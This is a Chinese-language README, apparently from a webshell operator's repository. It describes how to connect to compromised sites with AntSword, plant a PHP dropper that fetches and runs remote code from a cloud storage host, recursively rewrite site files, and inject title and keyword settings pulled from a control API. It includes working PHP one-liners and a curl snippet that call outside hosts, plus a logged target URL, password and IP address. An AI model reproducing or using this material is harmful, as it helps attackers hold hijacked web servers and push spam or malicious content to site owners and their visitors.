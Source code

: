 # README


## antsword配置111
特殊的base64、rsa连接，需要先增加对应encode
见： ./config/antswords配置.md


## 修改shell流程：
1. 选择，encode方式，测试链接
2. 链接后找个位置放php，如/rewrite/httpd.php,这个php从oss获取要执行的php代码，
    - 参数1: 执行代码目录位置
    - 参数2: 云端最新代码连接
    配置完成之后执行一次， https://123456vip.top/rewrite/httpd.php
3. 执行修改代码，如:  https://123456vip.top/config/httpd.php?d=up&w=pa
    - 参数 d = dir, 指定开始递归便利的目录，可传: d=上一级，或者目录绝对路径，如： /www/wwwroot/xxx.com/
    - 参数 w = who, pa or be，两条线
 <?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
4. 修改完成之后做记录：
https://123456vip.top/template/template_init.php |mmk123 |  154.12.81.159
代码更新：0608 OK ✅
https://123456vip.top/rewrite/httpd.php
/www/wwwroot/74724/rewrite/httpd.php
<?php file_put_contents("/www/wwwroot/74724/config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://123456vip.top/config/httpd.php?d=up

## TDK自定义配置
域名-TDK配置在阿里云OSS，格式如：
./tech/ossconf/alltk.json

shell连接之后，从云端获取全局修改tdk代码，代码源码在:
./tech/code/del_do.php，混淆后为： del_do.php

通过php接口获取,代码如下，rdm=当前根域名，w=当前线的代号
```
<?php
$curl = curl_init();
curl_setopt_array($curl, array(
  CURLOPT_URL => 'http://mulu.apid-tw.cc/api/websh/phptdk?rdm=kimsitu.com&w=pa',
  CURLOPT_RETURNTRANSFER => true,
  CURLOPT_ENCODING => '',
  CURLOPT_MAXREDIRS => 10,
  CURLOPT_TIMEOUT => 0,
  CURLOPT_FOLLOWLOCATION => true,
  CURLOPT_HTTP_VERSION => CURL_HTTP_VERSION_1_1,
  CURLOPT_CUSTOMREQUEST => 'GET',
));
$response = curl_exec($curl);
curl_close($curl);
echo $response;
```